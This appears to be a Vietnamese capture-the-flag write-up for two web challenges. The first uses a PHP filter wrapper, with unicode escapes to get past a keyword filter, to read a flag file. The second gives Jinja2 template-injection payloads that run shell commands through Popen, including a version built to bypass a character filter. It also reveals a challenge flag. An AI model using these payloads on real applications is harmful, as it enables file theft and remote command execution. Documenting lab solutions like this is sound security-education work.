 ```php
    header('Content-Type: application/json');
    echo json_encode(['content' => $content]);
}
```
:::
::::
Server sẽ lấy input từ `POST` request gửi đến, và gọi hàm `file_get_contents`.
Ta thử đọc file `/flag`
```
Request: {"page":"/flag"}
---------
Response: {"content":"Invalid content"}
```
Vì content của file `/flag` có chứa `W1` nên cần phải encode content của file để có thể in ra thành công.
Trong quá trình reserach thì mình có tìm ra PHP Wrapper có thể encode nội dung của file như sau
```
php://filter/convert.base64-encode/resource=/flag
```
Tuy nhiên `php` đã bị filter. JSON có escape character đặc biệt là `\uXXXX` là unicode của UTF-16.
Do PHP không có nên khi kiểm tra `check_valid($body)` sẽ không nhận ra điều gì bất thường. Qua hàm `json_decode()` nó sẽ được decode và đọc.
```
Request: {"page":"\u0070\u0068\u0070://filter/convert.base64-encode/resource=/flag"}
---------
Response: {"content":"VzF7dzNsYzBtM193M2JfdzRycmowcnN9Cg=="}
```
Decode basễ và ra flag.

**FLAG:** `W1{w3lc0m3_w3b_w4rrj0rs}`
<br />
## WEB: NAMENAME
:::info Challenge
I tried coding a website to say hello to everyone, please try and feel it
> `http://45.122.249.68:20029/`
:::

`Ctrl U` xem src thấy có đường dẫn đến `/wannaw1n`. Web sẽ trỏ đến 
`/wannaw1n?c=hacker` và trả về 
```
Hello hacker
```
Đây có thể là render template nên mình nghĩ đến SSTI. Sau một hồi thử thì mình xác định được đây là từ `Python/Jinja2`
Đây là payload ban đầu mình dùng class `Popen` để sử dụng lệnh `cat` đọc file flag
```
{{"".__class__.__mro__"[1].__subclasses__()[279]("cat flag.txt",shell=1,stdout=-1).communicate()}}
```
Tuy nhiên trong quá trình thử thì có phát hiện ra server đã filter một số kí tự như là
`.`, `[`, `]`, `f`, `\`. Do đó cần chỉnh sửa một chút về payload, và chuyển sang read toàn bộ các file trong directory hiện tại với `cat *` hoặc có thể dùng `cat *lag*`, `cat ?lag????` vì chữ flag không hoàn toàn bị filter.
Chi tiết có thể xem qua [đây](https://hackmd.io/@d0qbu/HJoJxEK-a#WEB-thru-the-filter)
```
{{""|attr("__class__")|attr("__mro__")|attr("__getitem__")(1)|attr("__subclasses__")()|attr("__getitem__")(279)("cat+*",shell=1,stdout=-1)|attr("communicate")()}}
```

